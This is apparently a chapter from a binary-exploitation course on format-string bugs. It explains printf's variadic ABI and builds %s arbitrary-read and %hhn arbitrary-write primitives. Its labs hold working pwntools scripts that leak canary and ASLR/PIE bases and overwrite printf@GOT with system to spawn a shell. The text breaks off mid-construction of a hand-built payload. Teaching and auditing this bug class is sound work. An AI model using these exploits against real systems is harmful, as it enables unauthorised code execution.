







This is Chapter 5 of the Binary Exploitation notebook. Chapter 4 leaned on a "read primitive" and a "write primitive" as if they were free — leak the canary, leak libc, overwrite a GOT entry. This chapter is where those primitives come from. The **format string vulnerability** is unique in the exploitation canon: a *single* bug class gives you both an arbitrary **read** (the most powerful info-leak in the game — it defeats the canary, ASLR and PIE all at once) and an arbitrary **write** (overwrite any writable pointer: a GOT entry, a saved return address, a function hook). No other common bug is both at once.

The root cause is deceptively small. C's `printf` family is *variadic* — it decides how many arguments to consume, and of what type, entirely from the **format string** you pass it. When that format string is attacker-controlled (`printf(user_input)` instead of `printf("%s", user_input)`), the attacker dictates how `printf` walks memory. This chapter builds the complete mental model of that ABI, then turns it into read and write primitives, and finally into full exploits.

As always, everything targets binaries you own or are authorised to test. Format-string bugs are a real, still-shipping vulnerability class (logging wrappers, `sprintf`-into-a-buffer, embedded firmware), and demonstrating read+write from one is exactly how a researcher proves a `printf(user)` is critical rather than cosmetic.

---

## Part 1: Why `printf(user)` Is Catastrophic

Two lines that look almost identical behave completely differently:

```c
printf("%s", user);   // SAFE   — format string is a constant; user is an argument
printf(user);         // UNSAFE — user IS the format string
```

In the safe form, `%s` is fixed by the programmer and `user` is data. In the unsafe form, if `user` contains `%s`, `%p`, or `%n`, `printf` will *interpret* those specifiers and go looking for arguments that the caller never passed — reading (or writing) whatever happens to be in the argument registers and on the stack.

Try it mentally: the program calls `printf(user)` and the attacker sends `%p %p %p %p`. `printf` sees four `%p` conversions, believes four pointer arguments were passed, and prints four machine words pulled from wherever the calling convention says arguments live. Those words are *live process memory* — register spill, stack contents, saved return addresses, the canary. The attacker just turned a print statement into a memory disclosure.

The severity ladder, from least to most dangerous:



A crash-only bug (`%s` on a bad pointer) is already a leak or DoS; `%n` escalates the same bug to full code execution. That is why static analysers and compilers treat *any* non-literal format string as a serious finding.

The attack surface a single `printf(user)` opens, at a glance:



Read that mindmap as the chapter's table of contents: the left branch is Parts 4 and 8 (reads), the middle is Parts 5, 9, and 9d (writes), and every leaf is a concrete primitive we build.

---

## Part 2: The variadic ABI — How `printf` Finds Its Arguments

To exploit format strings you must know *exactly* where `printf` looks for its Nth argument. This is dictated by the platform calling convention. On **x86-64 System V** (Linux), the first six integer/pointer arguments are passed in registers, the rest on the stack:

| Arg position | Location (x86-64 SysV) |
|---|---|
| 1st (the format string itself) | `rdi` |
| 2nd | `rsi` |
| 3rd | `rdx` |
| 4th | `rcx` |
| 5th | `r8` |
| 6th | `r9` |
| 7th, 8th, ... | `[rsp]`, `[rsp+8]`, ... (on the stack) |

Crucial consequence: when you call `printf(user)`, the format string occupies `rdi` (arg 1). The *first conversion specifier* in your string (`%p` #1) consumes **arg 2 = `rsi`**, the second consumes `rdx`, ... the fifth consumes `r9`, and the **sixth conversion onward reads from the stack** at `[rsp]`, `[rsp+8]`, etc. So on x86-64, the first stack word you can read is roughly the **6th** `%p` (the exact number shifts by one or two depending on whether the compiler spilled anything). On 32-bit x86, *all* arguments are on the stack, so the **1st** `%x` already reads stack memory — 32-bit format strings are even more direct.



### The whole vulnerable family

`printf` is only the most famous member. *Every* function that takes a format string is exploitable the same way if that format is attacker-controlled. Know the full set so you don't miss one in review:

| Function | Format arg | Notes |
|---|---|---|
| `printf(fmt, ...)` | 1st | writes to stdout |
| `fprintf(f, fmt, ...)` | 2nd | to a stream (often stderr in error paths) |
| `sprintf(buf, fmt, ...)` | 2nd | writes into a buffer — can self-corrupt if `buf` is on the stack |
| `snprintf(buf, n, fmt, ...)` | 3rd | length-bounded output but format bug is identical |
| `dprintf(fd, fmt, ...)` | 2nd | to a file descriptor (sockets!) |
| `vprintf/vfprintf/vsnprintf(..., fmt, va_list)` | forwards a `va_list` | wrappers that pass a user format here are the *most common* real-world shape |
| `syslog(pri, fmt, ...)` | 2nd | to the system log — classic daemon bug |
| `err/warn/errx/warnx(..., fmt, ...)` | BSD-style error printers | same rules |
| `__printf_chk / __sprintf_chk` | fortified variants | may block `%n` from writable segs |

The `v*printf` wrappers matter most because a helper like `void logmsg(const char *fmt, ...) { va_list ap; va_start(ap, fmt); vfprintf(logf, fmt, ap); }` called as `logmsg(user)` looks innocent at the call site but forwards attacker data straight into `vfprintf` as the format. Grep a codebase for these signatures during review.

### Positional arguments: `%N$`

Counting `%p %p %p ...` by hand is tedious and shifts your string length. The **positional / direct-parameter** syntax `%N$` selects the Nth argument directly. `%7$p` prints the 7th argument's value as a pointer without needing six leading `%p`s. This is the single most useful piece of syntax in the whole chapter because it keeps your payload a fixed length while you scan:

```
%1$p -> rsi        %6$p -> [rsp] (first stack slot)
%2$p -> rdx        %7$p -> [rsp+8]
...                %10$p -> [rsp+0x20]   etc.
```

**Finding "your offset":** send a unique marker followed by many positional reads and see which index echoes your marker back. If you send `AAAAAAAA` (8 bytes = `0x4141414141414141`) as the start of your format string and one of the `%N$p` prints `0x4141414141414141`, that N is the stack slot holding *your own input*. That slot is where you'll later place a target address for `%s`/`%n`. This "find my offset" step is the first move of every format-string exploit.

---

## Part 3: The Conversion-Specifier Toolbox

Every format-string exploit is assembled from a small set of specifiers. Know each one's exact effect on the argument pointer and on memory.

| Specifier | Reads/Writes | Effect | Exploit use |
|---|---|---|---|
| `%x` | reads 4 bytes | print an unsigned int (hex) | leak 32-bit stack words; advance arg pointer |
| `%p` | reads 8 bytes (x64) | print a pointer | leak full 64-bit stack words (canary, libc, PIE) |
| `%lx` / `%llx` | reads 8 bytes | print long hex | 64-bit leaks without pointer formatting |
| `%s` | reads a **pointer**, then the string it points to | dereference & print C-string at that address | **arbitrary read** of a chosen address |
| `%c` | reads 4 bytes, prints 1 char | emit exactly one output byte; pad the byte counter | control `%n` count precisely |
| `%NNNc` | — | print NNN padding chars | inflate the internal byte counter for `%n` |
| `%n` | **writes** | store *bytes printed so far* (4-byte int) to the pointed-at address | **arbitrary 4-byte write** |
| `%hn` | **writes** | store bytes-so-far as a **2-byte** short | write 16 bits at a time |
| `%hhn` | **writes** | store bytes-so-far as a **1-byte** char | write 8 bits at a time (the workhorse) |
| `%N$...` | — | select argument N directly (positional) | fixed-length payloads, precise targeting |

The two stars are `%s` (read) and `%n` (write). Understand `%n` precisely: **it does not take a value from your string — it writes the *number of characters `printf` has output so far* into the memory location pointed to by the corresponding argument.** So to write the value `0x1234` somewhere, you arrange for `printf` to have printed exactly `0x1234` = 4660 characters before it reaches the `%n`, and you make that `%n`'s argument be a pointer to the target address.

```c
int written;
printf("hello%n", &written);   // prints "hello" (5 chars), stores 5 into `written`
```

That is the entire mechanism of the arbitrary write: **control the count (with padding like `%4660c`) and control the pointer (a target address you placed on the stack).**

---

## Part 4: Building the Read Primitive

### 4.1 Leaking the stack (info leak)

The simplest primitive: dump stack words to defeat the canary and find leaks. Send positional reads and read the echoes:

```bash
$ ./target
> %6$p.%7$p.%8$p.%9$p.%10$p.%11$p.%12$p
0x7ffff7...(libc).0x1.0x5555...(pie).(nil).0x00...00(canary?).0x7fff...(stack).0x4141...
```

Walk the output: a value ending in `00` with high entropy is very likely the **canary**; a `0x7ff...` in the libc range is a **libc pointer** (subtract the known offset → libc base, defeating ASLR); a `0x555...`/`0x55...` value is a **PIE code/stack pointer** (defeating PIE). One line, three mitigations bypassed. This is precisely the leak Chapter 4's Lab A consumed.

### 4.2 Arbitrary read with `%s`

`%p` prints the *value* of a stack slot; `%s` treats that slot as a **pointer and prints the string at it**. If you can place a target address into a stack slot that a `%N$s` will read, you can dump the bytes at any address — read a GOT entry to leak libc, read a global, read `/proc`-like secrets in memory. The trick is getting your chosen address onto the stack at a known positional index — which is exactly the "find my offset" slot from Part 2. If offset 8 holds your input, then:

```python
from pwn import *
target = p64(elf.got['puts'])          # address we want to read (GOT entry -> libc ptr)
payload = b'%8$s'.ljust(8, b'\x00') + target
# printf reads slot 8 as a pointer (= puts@GOT) and prints the libc address stored there
```

Note the ordering constraint: the format specifier and the address both live in your input buffer, so you pad the specifier to an 8-byte boundary and append the address so it lands cleanly on a slot. `%s` stops at the first NUL, so leaked pointers (which contain `00` bytes) may print short — read them with care, or use `%p` on the slot if the pointer is already on the stack.

---

## Part 5: Building the Write Primitive with `%n`

The arbitrary write is the crown jewel. Goal: write an arbitrary VALUE to an arbitrary ADDRESS.

### 5.1 The naïve full-word write (and why it's impractical)

To write `value` to `addr` with a single `%n`, you'd make `printf` output `value` characters then hit a `%n` whose argument points at `addr`. But `value` for a real 64-bit address is astronomically large (e.g. `0x7ffff7a52290` ≈ 140 trillion characters) — `printf` cannot output that many bytes. So a single full-width `%n` is never used for real addresses.

### 5.2 The byte-by-byte `%hhn` technique

The solution: write the target **one byte at a time** with `%hhn` (writes the low 8 bits of the current count), pointing at `addr`, `addr+1`, `addr+2`, ... and ordering the writes so the running count matches each byte in turn. Because `%hhn` writes only a byte, you only ever need the count to reach ≤ 255 between writes.

Worked example — write `0xdeadbeef` to address `A`:

- Target bytes (little-endian at `A`): `A+0 = 0xef`, `A+1 = 0xbe`, `A+2 = 0xad`, `A+3 = 0xde`.
- Sort by value ascending so the count only increases: `0xad(173) < 0xbe(190) < 0xde(222) < 0xef(239)`.
- Print `173` chars → `%hhn` to `A+2`; print `190-173=17` more → `%hhn` to `A+1`; print `222-190=32` more → `%hhn` to `A+3`; print `239-222=17` more → `%hhn` to `A+0`.

Each `%hhn` uses a positional argument pointing at the right target byte. Constructing this by hand is error-prone, which is why **you almost always use pwntools' `fmtstr_payload` to generate it** (Part 7). But you must understand the mechanism to debug when the auto-generator's offset is off by one.

```mermaid
flowchart TD
    A[Want: write 0xdeadbeef to addr] --> B[Split into 4 bytes: ef be ad de]
    B --> C[Sort ascending: ad(173) be(190) de(222) ef(239)]
    C --> D[%173c %hhn->addr+2]
    D --> E[%17c  %hhn->addr+1]
    E --> F[%32c  %hhn->addr+3]
    F --> G[%17c  %hhn->addr+0]
    G --> H[addr now holds 0xdeadbeef]
```

### 5.3 What to overwrite

An arbitrary write is only useful if you point it somewhere that changes control flow. Standard targets (Chapter 4 covered why each works):

| Target | Precondition | Result |
|---|---|---|
| GOT entry (`printf@GOT`, `exit@GOT`) | Partial RELRO (GOT writable) | next call to that function jumps to your value (e.g. `system`) |
| Saved return address on the stack | you know/leak the stack address | `ret` transfers control to your value |
| `__malloc_hook` / `__free_hook` | glibc < 2.34 | next `malloc`/`free` calls your value |
| `_IO_FILE` vtable / exit handlers | Full RELRO scenarios | FSOP / exit-time hijack |

The classic, cleanest demonstration is **overwrite `printf@GOT` with `system`** so that the *next* `printf(user)` becomes `system(user)` — a self-perpetuating shell. That is Lab B.

---

## Part 6: Format Strings in the Wild

Format-string bugs are not just CTF toys. Real-world shapes to recognise during code review or reversing:

- **Logging wrappers:** `syslog(LOG_INFO, user_controlled)` — `syslog`'s message argument is a format string. Passing user data directly is a textbook bug; countless embedded and daemon codebases got this wrong.
- **`sprintf`/`snprintf` into a buffer with a user format:** `sprintf(buf, user)` — write primitive into `buf`, and if `buf` is on the stack it can even self-corrupt.
- **`fprintf(stderr, err_from_network)`** in error paths that only fire on malformed input — exactly where fuzzers and attackers push.
- **`printf`-family in `dprintf`, `vprintf`, `vsnprintf`** when a wrapper forwards a user string as the format.
- **Localized/translated strings** where the *translation* (attacker-influenceable in some threat models) becomes the format and the code assumes the number/type of specifiers.

Historically this class produced remote-root bugs in `wu-ftpd`, `rpc.statd`, and numerous CGI programs around 2000, and it still appears in IoT/router firmware because embedded C shops disable the compiler warnings that would catch it. The `%n` specifier is now *disabled by default in some hardened libc/format implementations* (and by `_FORTIFY_SOURCE`), which is why part of modern exploitation is checking whether `%n` even works on the target (Part 12).

---

## Part 6b: A Reversing Walkthrough — Spotting the Bug in a Binary

You will not always have source. Here is how a format-string bug looks in a disassembler and how to confirm it. Consider a stripped binary; in Ghidra/objdump you see a call to `printf` where the format argument (`rdi`) is loaded from a *buffer the program filled from input*, not from a `.rodata` string literal:

```asm
; ---- SAFE pattern (rdi = constant string in .rodata) ----
lea    rdi, [rip+0x2010]      ; rdi -> "%s\n" in .rodata
mov    rsi, rax               ; rsi = user data (as ARGUMENT)
call   printf                 ; printf("%s\n", user)  -- fine

; ---- VULNERABLE pattern (rdi = user-controlled buffer) ----
lea    rax, [rbp-0x90]        ; rax -> local buf that fgets() just filled
mov    rdi, rax               ; rdi = user data USED AS FORMAT
mov    eax, 0
call   printf                 ; printf(user)  -- BUG
```

The tell is: **what is in `rdi` at the `call printf`?** If it traces back to a `read`/`fgets`/`recv` destination rather than an `lea ..., [rip+const]` into `.rodata`, you have a format-string bug. Cross-reference the buffer's provenance:

```bash
$ objdump -d -M intel ./target | grep -B4 'call.*printf@plt'
# look at the instruction setting rdi just above each printf call
$ rabin2 -z ./target         # dump strings; a format like "%s" in .rodata used as arg = safe
```

Confirm dynamically by sending `%p%p%p` and watching for leaked pointers — a safe `printf("%s", user)` prints your literal `%p%p%p`; a vulnerable `printf(user)` prints hex addresses. This one probe is definitive.

Historically, this exact `rdi = user buffer` shape produced remote-root CVEs in `wu-ftpd` (site-exec format string, 2000), `rpc.statd`, `CDE dtprintinfo`, and a long tail of router/IoT firmware where vendors compiled with warnings off. The pattern persists because logging helpers (`log("connection from %s" + ...)` refactored into `log(msg)`) quietly turn a literal into a variable format over a codebase's lifetime.

---

## Part 6c: Full-RELRO Write Targets — Beyond the GOT

Lab B overwrites `printf@GOT`, which requires **Partial RELRO**. When `checksec` says **Full RELRO**, the GOT is read-only and you must aim your `%n` elsewhere. The standard targets, in rough order of preference:

| Target | glibc requirement | Trigger | Notes |
|---|---|---|---|
| Saved return address on the stack | you leaked a stack address | function returns | most reliable if you have a stack leak; write a one_gadget or ROP |
| `__free_hook` | glibc < 2.34 | next `free()` | set to `system`, then free a chunk containing `"/bin/sh"` |
| `__malloc_hook` | glibc < 2.34 | next `malloc()` | set to a one_gadget |
| `_IO_2_1_stdout_` / stdout vtable | any (FSOP) | next buffered stdout op | file-stream-oriented programming; advanced |
| `__exit_funcs` / `tls_dtor_list` | any | `exit()` / return from `main` | forge/overwrite a destructor pointer (PTR_MANGLE-aware) |

The **saved return address** is usually the cleanest Full-RELRO target for a format string, *provided* you also have a leak of a stack address (so you know where the return address lives). Your read primitive supplies that: leak a `%p` that is a stack pointer, compute the saved-RIP slot, then `%hhn`-write a one_gadget (or the first link of a ROP chain, one qword at a time) into it. This is why format strings are so devastating even under Full RELRO — the *same bug* leaks the stack address and then writes to it.

For glibc ≥ 2.34 (hooks removed), FSOP against `_IO_FILE` structures and the exit-handler chain become the go-to; those are heap/file-structure techniques expanded in Chapter 6. The key transferable idea: **an arbitrary write is only as good as the writable function pointer you aim it at — enumerate them per libc version.**

---

## Part 7: Tooling — pwntools `fmtstr_payload`, `FmtStr`, and Debugging

### `fmtstr_payload` — auto-generate the write

**What it is:** a pwntools helper that builds a complete `%hhn`/positional write payload for you, given the format-string argument offset, and a dict of `{address: value}` writes. **Why it exists:** hand-computing sorted byte counts and positional indices is tedious and bug-prone; this does it correctly every time. Signature and use:

```python
from pwn import *
context.binary = elf = ELF('./target')

# offset = the positional index where YOUR input first appears (from Part 2)
offset = 6
payload = fmtstr_payload(offset,
                         {elf.got['printf']: elf.symbols['system']},  # writes dict
                         write_size='byte')     # 'byte'=%hhn, 'short'=%hn, 'int'=%n
p.sendline(payload)
```

`write_size='byte'` uses `%hhn` (most reliable, most output bytes); `'short'` is faster but writes 2 bytes at a time; choose based on how much output the target tolerates.

### `FmtStr` — automated offset discovery + repeated writes

**What it is:** a higher-level pwntools class that *discovers the offset for you* by sending probes through a function you provide, then exposes a `.write(addr, data)` method for arbitrary writes. **Why it exists:** to script multi-write exploits without recomputing payloads.

```python
def send_fmt(payload):
    p.sendline(payload)
    return p.recvline()          # return the program's echo of the format string

fmt = FmtStr(execute_fmt=send_fmt)
log.info('auto-found offset = %d', fmt.offset)
fmt.write(elf.got['exit'], elf.symbols['win'])   # queue a write
fmt.execute_writes()                              # perform it
```

### Debugging format strings in pwndbg

```text
pwndbg> break printf            # or the specific call site
pwndbg> run
pwndbg> x/8gx $rsp              # inspect the stack slots %6$p.. will read
pwndbg> telescope $rsp 12       # annotated: spot your 'AAAA' marker slot => the offset
pwndbg> p $rdi                  # the format string pointer (your input)
```

The workflow: break at the `printf`, dump `$rsp`, find which slot holds your marker, and that index (accounting for the register args) is your `fmtstr_payload` offset. Always verify the auto-offset against `telescope` when an exploit misbehaves.

---

## Part 8: Lab A — Format-String Leak Defeating Canary + ASLR + PIE

Same target shape as Chapter 4's Lab A, but here we treat the format string as a *first-class* primitive and derive everything cleanly.

### 8.1 Program

```c
// leak.c — gcc -fstack-protector-strong -pie -fPIE -o leak leak.c
#include <stdio.h>
int main(){
    char buf[128];
    setvbuf(stdout,0,2,0);
    while (1) {
        printf("> ");
        if (!fgets(buf, sizeof buf, stdin)) break;
        printf(buf);            // FORMAT STRING BUG
    }
}
```

### 8.2 Find the offset and the leaks

```bash
$ ./leak
> AAAAAAAA %6$p %7$p %8$p %9$p %10$p
AAAAAAAA 0x7ffff7a0d780 0x1 0x555555555189 (nil) 0x4141414141414141
```

Read it: `%10$p` echoed our `AAAAAAAA` → **our input is at offset 10**. `%6$p` is a **libc pointer**, `%8$p` is a **PIE pointer** (`0x5555...`). We can now rebase both.

### 8.3 Exploit — leak all three, compute bases

```python
#!/usr/bin/env python3
from pwn import *
elf  = context.binary = ELF('./leak')
libc = ELF('./libc.so.6')
p = process('./leak')

def leak(idx):
    p.sendlineafter(b'> ', f'%{idx}$p'.encode())
    return int(p.recvline().strip(), 16)

libc_leak = leak(6)                       # some libc address
pie_leak  = leak(8)                       # some PIE code address
# canary: find the slot ending in 00 (probe once, hardcode index — say 11)
p.sendlineafter(b'> ', b'%11$p')
canary = int(p.recvline().strip(), 16)

libc.address = libc_leak - 0x1ec780       # offset of the leaked libc slot in THIS libc
elf.address  = pie_leak  - 0x1189         # offset of the leaked slot within the binary
log.success('libc base = %#x', libc.address)
log.success('PIE  base = %#x', elf.address)
log.success('canary    = %#x', canary)
assert libc.address & 0xfff == 0 and elf.address & 0xfff == 0

system = libc.symbols['system']
binsh  = next(libc.search(b'/bin/sh\x00'))
log.info('system=%#x  /bin/sh=%#x', system, binsh)
# -> feed these into a stack overflow / GOT overwrite as in Chapter 4 / Lab B
```

Output:

```
[+] libc base = 0x7ffff7800000
[+] PIE  base = 0x555555554000
[+] canary    = 0x6f2a91c4b3e00   (ends in 00)
[*] system=0x7ffff7850d70  /bin/sh=0x7ffff79d8698
```

**One `printf(user)` handed us the canary, the libc base, and the PIE base** — every runtime secret Chapter 4's mitigations tried to hide. This is why the read primitive is described as "defeats canary + ASLR + PIE at once."

---

## Part 9: Lab B — GOT Overwrite: Redirect `printf` to `system`

Now the write primitive end-to-end: overwrite `printf@GOT` with `system` so the *next* loop iteration's `printf(buf)` executes `system(buf)`. Target has **Partial RELRO** (GOT writable) — confirm with `checksec` first.

### 9.1 Plan



### 9.2 Exploit

```python
#!/usr/bin/env python3
from pwn import *
elf  = context.binary = ELF('./leak')     # Partial RELRO, non-PIE for simplicity here
libc = ELF('./libc.so.6')
p = process('./leak')

# 1) leak libc first (need system's real address)
p.sendlineafter(b'> ', b'%6$p')
libc.address = int(p.recvline().strip(), 16) - 0x1ec780
system = libc.symbols['system']
log.success('system = %#x', system)

# 2) find our input offset (probed earlier) and overwrite printf@GOT with system
offset = 6
payload = fmtstr_payload(offset, {elf.got['printf']: system}, write_size='byte')
p.sendlineafter(b'> ', payload)

# 3) next printf(buf) is now system(buf) -> send a shell command
p.sendlineafter(b'> ', b'/bin/sh')
p.interactive()
```

Annotated run:

```
[+] system = 0x7ffff7850d70
[*] Sending fmtstr payload (offset=6, byte writes to 0x404018)
[*] Switching to interactive mode
$ id
uid=1000(kali) gid=1000(kali)
$ cat flag.txt
flag{printf_became_system_via_hhn}
```

**Why it works:** `fmtstr_payload` emitted a chain of `%NNNc%hhn` writes that, byte-by-byte, stamped `system`'s 6 significant address bytes into the 8-byte `printf@GOT` slot. After that, the program's own `printf(buf)` is a call to `system(buf)`. If the target were **Full RELRO**, `printf@GOT` would be read-only and this exact write would segfault — you'd pivot to `__free_hook` (old glibc), a saved return address on the stack, or an exit handler instead.

---

## Part 9b: Building the `%hhn` Write By Hand — No pwntools

`fmtstr_payload` is what you'll use in practice, but if you cannot reproduce it by hand you cannot debug it. Here is a complete, manual construction of a 4-byte write, with every character counted.

**Goal:** write `0x0804a018`'s worth of value — let's write the value `0x080491b6` (a `win()` address, 32-bit example for clarity) into address `A = 0x0804a018`. We use four `%hhn` writes, one per byte.

Target bytes at `A`, little-endian:

```
A+0 = 0xb6 (182)
A+1 = 0x91 (145)
A+2 = 0x04 (4)
A+3 = 0x08 (8)
```

Sort ascending by byte value so the running character count only ever increases (you cannot "un-print" characters):

```
0x04 (4)   -> goes to A+2
0x08 (8)   -> goes to A+3
0x91 (145) -> goes to A+1
0xb6 (182) -> goes to A+0
```

Now compute the *incremental* padding between writes. The four target addresses (`A+2, A+3, A+1, A+0`) go at the tail of the payload; suppose after laying the format directives the addresses begin at argument offset 7,8,9,10. The running count starts at whatever the address block's length contributes — call the layout carefully:

```
payload  = b''
# --- write 4 to A+2 ---   need count == 4
payload += b'%4c'          # print 4 chars total so far  (count = 4)
payload += b'%7$hhn'       # store low byte of count (4) at *(arg7) = A+2
# --- write 8 to A+3 ---   need count == 8, already printed 4, so +4
payload += b'%4c'          # count = 8
payload += b'%8$hhn'       # store 8 at A+3
# --- write 145 to A+1 --- need count == 145, printed 8, so +137
payload += b'%137c'        # count = 145
payload += b'%9$hhn'       # store 0x91 at A+1
# --- write 182 to A+0 --- need count == 182, printed 145, so +37
payload += b'%37c'         # count = 182
payload += b'%10$hhn'      # store 0xb6 at A+0
# --- align to 4/8 bytes, then the four target addresses ---
